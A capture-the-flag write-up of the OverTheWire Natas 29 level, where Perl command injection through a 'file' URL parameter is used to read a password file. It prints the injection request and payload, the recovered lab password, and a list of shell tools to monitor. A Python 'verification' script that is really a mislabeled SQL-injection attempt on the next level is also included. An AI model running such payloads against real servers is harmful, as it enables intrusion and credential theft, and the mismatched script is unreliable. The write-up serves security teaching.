


# Natas Level 29 → 30

**Vulnerability:** Perl Command Injection via Unsafe File Handling
**Difficulty:** Hard
**Tools Used:** Browser, URL Manipulation, Python
**OWASP Category:** A03:2021 – Injection
**Attack Class:** Command Injection

---

## What the level gives you

The application presents several selectable files and displays their contents when chosen. Unlike many previous Natas levels, no source code is initially provided, so the challenge must be approached by interacting directly with the application.

The selected file is controlled through the `file` URL parameter. The objective is to retrieve the password for the next level by abusing how the application handles user-supplied filenames.

---

## Vulnerability theory

Command injection occurs when user-controlled input is passed into a function that ultimately invokes operating system commands. If special shell characters are interpreted instead of treated as plain text, an attacker can execute arbitrary commands on the underlying server.

Perl introduces an additional risk through functions such as `open()`, which can treat specific inputs as commands rather than filenames. When a developer assumes all user input represents a normal file path, but Perl interprets the value as a command pipeline, the attacker gains command execution capabilities.

The attack primitive provided by this vulnerability is arbitrary command execution under the permissions of the web server process. Once achieved, attackers can read sensitive files, enumerate the system, or potentially achieve full remote code execution.

---

## Approach

The application appeared to be a simple file viewer controlled through the `file` parameter. Since only a small set of predefined files was exposed through the interface, I began testing whether the parameter could be manipulated directly.

Rather than selecting one of the available files, I modified the URL manually and supplied a command instead of a filename. The key insight was that the application was likely using Perl file handling functionality internally, which can interpret specially crafted values as executable commands.

After replacing the file parameter with a command designed to read the next level password file, the server executed the command and returned the contents directly in the response.

---

## Exploitation

The original request looked similar to:

```http
GET /index.pl?file=perl+underground+5 HTTP/1.1
Host: natas29.natas.labs.overthewire.org
```

The file parameter was replaced with a command:

```http
GET /index.pl?file=|cat%20/etc/natas_webpass/natas30%20%00 HTTP/1.1
Host: natas29.natas.labs.overthewire.org
Authorization: Basic <natas29 credentials>
```

### Payload Breakdown

```text
|cat /etc/natas_webpass/natas30 %00
```

- `|` causes Perl to interpret the value as a command.
- `cat` reads the next level password file.
- `%00` acts as a null byte terminator.

The server executed the command and returned the contents of the password file.

### Password Retrieved

```text
WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH
```

---

### Python Verification Script

```python
import requests
from requests.auth import HTTPBasicAuth

basicAuth = HTTPBasicAuth(
    'natas30',
    'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH'
)

url = "http://natas30.natas.labs.overthewire.org/index.pl"

params = {
    "username": "natas28",
    "password": ["whatever' or 1", 4]
}

response = requests.post(
    url,
    data=params,
    auth=basicAuth,
    verify=False
)

print(response.text)
```

---

## Screenshot

### Command Injection Payload



### Password Disclosure



---

## Real-world relevance

This vulnerability falls under OWASP A03:2021 – Injection. Command injection remains one of the most severe web application vulnerabilities because successful exploitation often leads directly to server compromise.

Historically, CGI applications written in Perl were particularly susceptible to unsafe command execution patterns. Similar vulnerabilities continue to appear in modern applications when developers pass user input into shell commands, backup scripts, file processing utilities, or administrative tools without proper validation.

In professional penetration tests, command injection findings are typically rated High or Critical because they frequently allow arbitrary file access, credential theft, and full remote code execution.

---

## Defender's perspective

User-controlled data should never be passed directly into shell-interpreting functions. File selection functionality should be implemented using strict allowlists rather than accepting arbitrary filenames from user input.

Developers should use safe APIs that operate on files directly rather than invoking shell commands. Applications should also run with least-privilege permissions so that compromise of the web process does not expose sensitive credential files.

From a detection perspective, requests containing shell metacharacters such as `|`, `;`, `` ` ``, `$()`, and command names such as `cat`, `wget`, or `curl` should be monitored and investigated.

---

## What I'd do differently

I would automate parameter fuzzing using Burp Intruder to quickly identify command execution characters and reduce the amount of manual testing required.